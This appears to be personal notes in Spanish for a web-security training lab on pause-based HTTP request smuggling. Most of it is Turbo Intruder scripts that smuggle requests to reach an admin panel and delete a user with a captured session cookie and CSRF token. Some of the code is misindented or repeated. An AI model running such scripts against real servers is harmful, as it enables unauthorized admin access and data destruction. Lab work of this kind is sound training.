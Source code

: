 
La desincronización basada en pausa es un tipo de ataque que se aprovecha del comportamiento de ciertos servidores cuando reciben solicitudes HTTP incompletas. Este ataque se realiza enviando los encabezados de una solicitud, prometiendo un cuerpo que nunca se envía, y luego esperando un tiempo determinado antes de enviar el resto de la solicitud.
Com esta tarea puede resultar incómoda usaremos un script en python en turbo intruder que automatice ese proceso. 
Primero interceptamos, podemos ver que tiene Apache/2.4.52 que es vulnerable a esto. click derecho > sent to turbo intruder
![[Pasted image 20240819142400.png]]
```
 When you paste the code it will have an extra odds spaces which cause error
```

Si esta es la primera vez que usas Turbo Intruder, es una extensión que podes conseguir en la pestaña Extensions > BApp de Burpquiste. El "s%" representa la variable que el turbo intruder va a ir cambiando
Hay una variable "smuggled_request" en donde está el host de la página propia, como el host iría el ID de nuestro laboratorio propio.
Tenemos un attack requets que es una petición post a una ruta.
El pauseMarker tiene definido también una solicitud GET con dos CRLF.
Cuando ejecutemos esto, obtendremos un 404 que confirma la race condition
```
 def queueRequests(target, _):
    engine = RequestEngine(
        endpoint="https://LAB_ID.web-security-academy.net:443",
        concurrentConnections=1,
        requestsPerConnection=100,
        pipeline=False
    )

    # attack request
    attack_request = """POST /resources HTTP/1.1
Host: LAB_ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: %s

%s"""

    # smuggled request GET
    smuggled_request = """GET /uripathdoesnotexist/ HTTP/1.1
Host: LAB_ID.web-security-academy.net

"""


    # normal request
    normal_request = """GET / HTTP/1.1
Host: LAB_ID.web-security-academy.net

"""

    engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, _):
    table.add(req)


 """
    
     engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    
     engine.queue(normal_request)
    

 def handleResponse(req, _):
    
     table.add(req)
```

Si ves un eror como:
User ýthon error, check extender for full detais: SyntaxErrpr:("no viable alternative character '\xa0'",)
Entonces la identación esta causando error
Ahora hacemo lo mismo para la ruta de admin
```
 def queueRequests(target, _):

engine = RequestEngine(

endpoint="https://LAB-ID.web-security-academy.net:443",

concurrentConnections=1,

requestsPerConnection=100,

pipeline=False

)

  

# attack request

attack_request = """POST /resources HTTP/1.1

Host: LAB-ID.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Connection: keep-alive

Content-Length: %s

  

%s"""

  

# smuggled request GET

smuggled_request = """GET /admin/ HTTP/1.1

Host: localhost

  

"""

  

normal_request = """GET / HTTP/1.1

Host: LAB-ID.web-security-academy.net

  

"""

  

engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)

engine.queue(normal_request)

  

def handleResponse(req, _):

table.add(req)
```
Es importante el slash al final porque el servidor sino te redirije automáticamente. Esto nos debería dar un 200 OK donde está la cookie sesion que copiaríamos. Y también el input que tiene un value con el csrf token

![[Pasted image 20240819154910.png]]

Utilizan el session ID y las cookies podemos realizar las acciones del admin
```
def queueRequests(target, _):

engine = RequestEngine(

endpoint="https://0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net:443",

concurrentConnections=1,

requestsPerConnection=100,

pipeline=False

)

  

# attack request

attack_request = """POST /resources HTTP/1.1

Host: 0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Connection: keep-alive

Content-Length: %s

  

%s"""

  

# smuggled request POST

smuggled_request = """POST /admin/delete/ HTTP/1.1

Content-Length: 55

Cookie: session=dZIrxoctZoO77up1lOYtJGvvFF6oCHKY

Host: localhost

csrf=89hYeJ9bhHQyT4mNmGYL65HRkxKNLwGs&username=carlos

"""

  

# normal request

normal_request = """GET / HTTP/1.1

Host: 0a0d00f704ff88b880f6e4b1000d0045.web-security-academy.net

  

"""

  

engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nPOST'], pauseTime=61000)

engine.queue(normal_request)

  

def handleResponse(req, _):

table.add(req)
```
]]
